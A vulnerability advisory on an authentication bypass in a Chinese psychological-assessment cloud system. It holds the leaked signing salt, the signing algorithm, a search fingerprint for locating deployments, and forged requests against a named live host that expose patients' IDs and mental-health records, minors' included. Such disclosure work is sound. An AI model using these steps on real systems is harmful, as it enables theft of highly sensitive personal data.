





# [PRODUCT] Psychological CT Cloud System (Yesleep Libra) V1.0.1



Vendor website: http://60.16.2.88:8800/

# [TYPE] AUTHENTICATION BYPASS / UNAUTHORIZED ACCESS

# [DESCRIPTION]

An authentication bypass vulnerability exists in the Psychological CT Cloud System (Yesleep Libra / 心理CT云系统), developed by Hunan Xinxing Technology Co., Ltd. (湖南心星科技有限公司). The front-end JavaScript bundle exposes the complete request-signing algorithm together with a hard-coded salt string. Because the signing secret is static and shipped client-side, and the `token` header may be empty, an unauthenticated attacker can forge valid request signatures and retrieve arbitrary patient records and psychological assessment results without logging in.

# [Fingerprint]

Hunter: `web.title="心理CT云系统" && web.body="Yesleep Libra"`



# [DETAILS]

The front-end request interceptor computes the signature as follows:

```js
m.interceptors.request.use(function(e){
  var a = (new Date).getTime();        // millisecond timestamp
  var o = d.sort().join("");           // all params sorted, concatenated as key+value
  o += "timestamp" + a;
  o += "saltjvTucz3EOg3F";             // hard-coded salt
  e.headers.sign = md5(o);
  e.headers.token = sessionStorage.getItem("token") || "";  // may be empty
  e.headers.t = a;
  e.headers.c = "h5";
});
```

The hard-coded salt `saltjvTucz3EOg3F` is shipped in the front-end JavaScript bundle (`app.*.js`), as shown below:



Signature computation:

```
o  = sorted concatenation of "key"+"value" for all params   // e.g. kw=18000 -> "kw18000"
o += "timestamp" + <millisecond timestamp>                   // literal string "timestamp" + the millisecond value
o += "saltjvTucz3EOg3F"                                      // hard-coded salt
sign = MD5(o)
```

Worked example for `kw=18000`, `t=1794557032223`:

```
MD5("kw18000" + "timestamp" + "1794557032223" + "saltjvTucz3EOg3F")
  = MD5("kw18000timestamp1794557032223saltjvTucz3EOg3F")
  = 29e377523f5c4af5f81f5bc013a987fd
```

Request package is as follows:

```http
GET /api/cfg/v1/users/one?kw=18000 HTTP/1.1
Host: baoxiu.jxgzsfybjy.cn:8800
sign: 29e377523f5c4af5f81f5bc013a987fd
t: 1794557032223
c: h5
```



> Note: The `idCard` (national ID number) field in the response is masked to protect personal privacy, since it is a highly sensitive piece of personally identifiable information.

**Impact of this endpoint:** The `/api/cfg/v1/users/one` endpoint returns the full personal profile of a patient, including name, national ID number (`idCard`), mobile phone number, and school/class information. Because the `kw` parameter accepts an arbitrary user identifier with no authentication or authorization check, an attacker can enumerate it to harvest this data in bulk. Critically, the exposed records include **minors** (under-14 students), making this a severe privacy breach of both adults' and children's personally identifiable information, which can be abused for targeted fraud, impersonation, and social engineering.

Unauthorized access to psychological assessment results:

```http
GET /api/scale/v1/scale/record-detail?id=18000 HTTP/1.1
Host: baoxiu.jxgzsfybjy.cn:8800
sign: 4cbb8c124d82503c552a63c13b823a47
t: 1794557344476
c: h5
```



**Impact of this endpoint:** The `/api/scale/v1/scale/record-detail` endpoint returns a patient's psychological assessment results (量表测评记录), which constitute sensitive **mental-health / medical data**. By enumerating the `id` parameter, an unauthenticated attacker can retrieve the psychological test results of arbitrary patients — including minors — exposing conditions such as anxiety, depression, and other mental-health indicators. This kind of data is highly sensitive under data-protection regulations (e.g. medical/health data and data of minors) and can be abused for discrimination (employment, insurance), extortion, or profiling.

By enumerating the `kw` and `id` parameters, an attacker can retrieve the personal information and psychological assessment results of arbitrary patients (e.g. `record-detail id=18000` resolves to `userId=16795`, which is then queryable via `users/one kw=16795`).

# [Mitigation & Fix Recommendations]

1. Enforce session validation at the gateway layer for all APIs (`users/one`, `record-detail`, etc.); return `401` for unauthenticated requests.
2. Remove the hard-coded client-side salt; replace with a server-issued one-time token (nonce + short TTL) bound to the request path and method.
3. Enforce two-sided timestamp window validation on the server.
4. Restrict object access by session identity; prevent querying arbitrary user IDs.
